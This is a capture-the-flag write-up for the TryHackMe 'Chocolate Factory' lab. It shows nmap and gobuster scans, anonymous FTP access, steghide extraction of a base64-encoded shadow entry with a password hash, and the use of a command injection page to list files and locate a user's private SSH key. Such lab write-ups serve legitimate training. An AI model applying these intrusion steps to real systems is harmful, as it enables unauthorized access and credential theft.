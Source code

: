 # Chocolate Factory themed CTF writeup | Tryhackme.com



First scan the machine with nmap:
nmap -A -T5 -v <**ip**>

![nmap1](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/nmap1.png)

![nmap1](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/nmap2.png)  

The open ports:

- 21 - ftp
- 22 - ssh
- 80 - http 
- 100, 106, 109, 110, 111, 113, 119, 125 - these TCP ports display the same banner.

Anonymous FTP login is allowed so let’s try that and see what we find

![ftp](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/ftp.png)

Download gum_room.jpg to our machine. Maybe there is something hidden behind this picture. 
We can find it out with steghide.

Use: steghide extract -sf <**file**>

![steghide](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/steghide.png)

The txt seems to be a base64 encoded text so let’s decode it in the terminal\
` cat b64.txt | base64 -d `

It seems to be an etc/shadow file and there is a user named charlie\
*charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::*


Let’s find the subdomains using gobuster\
`gobuster dir -u http://<ip>/ -w /usr/share/dirb/wordlists/common.txt -x php,html,sh,txt`

![gobuster](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/gobuster1.png)

First check out **Index.html**. \ **Home.php** also seems interesting, let’s navigate there aswell.

Index.html is a login page, let’s see the source code.
![index](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/website_indexhtml.png)

Index.html is a login page, let’s see the source code.

![src_code](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/source_code.png)

**Validate.php:**

<script>alert('Incorrect Credentials');</script><script>window.location='index.html'</script>
Validate


Now to the interesting part: **home.php**

![homephp](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/homephp.png)

There is a command injection page in here. Let’s try a few

` ls: ` \
      home.jpg home.php image.png index.html index.php.bak key_rev_key validate.php

      So there is a key in this directory. Let’s see what it has.\

` cat key_rev_key `\
      copy it and echo to terminal to see it better

      Enter your name: %slaksdhfas congratulations you have found the key: b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=' Keep its safeBad name!

See other directories aswell.
` pwd: `

      /var/www/html

` ls /home `

      user named charlie

` ls /home/charlie `

      teleport teleport.pub user.txt

user.txt is not readable
teleport.pub is the ssh public key and teleport is the private key

##### author: Dániel Varkoly
